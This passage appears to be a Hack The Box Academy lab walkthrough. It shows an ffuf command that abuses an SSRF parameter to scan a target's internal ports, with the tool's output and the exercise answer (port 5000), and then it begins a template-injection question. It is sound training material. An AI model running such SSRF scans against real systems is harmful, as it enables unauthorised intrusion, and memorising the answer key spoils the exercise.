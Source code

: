 Therefore, students need to use `ffuf` to fuzz for valid ports, utilizing the known error message to filter out erroneous responses:

Code: shell

```shell
ffuf -w ./ports.txt:FUZZ -u http://STMIP/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Something went wrong!"
```

```
┌─[us-academy-5]─[10.10.14.225]─[htb-ac-594497@htb-exnwhqyj3p]─[~]
└──╼ [★]$ ffuf -w ./ports.txt:FUZZ -u http://10.129.201.127/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Something went wrong!"

<SNIP>
________________________________________________

 :: Method           : POST
 :: URL              : http://10.129.201.127/index.php
 :: Wordlist         : FUZZ: /home/htb-ac-594497/ports.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Something went wrong!
______________________________________________

80                      [Status: 200, Size: 52, Words: 8, Lines: 1, Duration: 4833ms]
{hidden}                    [Status: 200, Size: 52, Words: 8, Lines: 1, Duration: 81ms]
  
:: Progress: [10000/10000] :: Job [1/1] :: 588 req/sec :: Duration: [0:00:22] :: Errors: 0 ::
```

Besides port `80`, students will find port `{hidden}` to be the other valid port.

Answer: `5000`

# Identifying SSTI

## Question 1

### "Apply what you learned in this section and identify the Template Engine used by the web application. Provide the name of the template engine as the answer."

Students need to begin by browsing to `http://STMIP:SMTPO`, where they will test the various SSTI payloads:
